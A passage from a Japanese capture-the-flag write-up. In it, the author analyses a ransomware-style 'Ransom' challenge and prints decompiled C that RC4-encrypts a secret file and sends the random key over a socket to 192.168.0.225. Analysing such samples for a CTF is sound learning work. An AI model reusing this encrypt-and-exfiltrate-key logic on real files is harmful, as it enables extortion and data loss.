 ナルホディウス。

これをテキストボックスに入れてみるとOKっぽい。
ということでこれがフラグです。

### Ransom

この問題の暗号化方式はRC4ってやつらしいですね、前にも見たことがあったので見抜けなかったのは痛い。
バイナリと暗号化されたテキストファイル、pcapファイルが渡され、テキストファイルを復号化するとフラグが手に入ります。

Ghidraくんに食わせて見やすいように変数名とか書き換えたのがこちら。

```c
int main(void)

{
  (省略)
  random_buf = (char *)malloc(0x11);
  random_init(0x10,random_buf);
  originfs = fopen("ctf4b_super_secret.txt","r");
  if (originfs == (FILE *)0x0) {
    puts("Can\'t open file.");
    iVar1 = 1;
  }
  else {
    pcVar3 = fgets(flag_contents,0x100,originfs);
    if (pcVar3 != (char *)0x0) {
      flag_len = strlen(flag_contents);
      crypted_buf = (char *)malloc(flag_len << 2);
      lock_file(random_buf,flag_contents,(long)crypted_buf);
      lockf = fopen("ctf4b_super_secret.txt.lock","w");
      if (lockf == (FILE *)0x0) {
        puts("Can\'t write file.");
        iVar1 = 1;
        goto LAB_0010191f;
      }
      i = 0;
      while( true ) {
        flag_len = strlen(flag_contents);
        if (i == flag_len) break;
        fprintf(lockf,"\\x%02x",(ulong)(byte)crypted_buf[i]);
        i = i + 1;
      }
      fclose(lockf);
    }
    fclose(originfs);
    iVar1 = socket(2,1,0);
    if (iVar1 < 0) {
      perror("Failed to create socket");
      iVar1 = 1;
    }
    else {
      local_128._0_2_ = 2;
      local_124 = inet_addr("192.168.0.225");
      local_128._2_2_ = htons(0x1f90);
      iVar2 = connect(iVar1,(sockaddr *)local_128,0x10);
      if (iVar2 == 0) {
        write(iVar1,random_buf,0x11);
        iVar1 = 0;
      }
      else {
        perror("Failed to connect");
        iVar1 = 1;
      }
    }
```
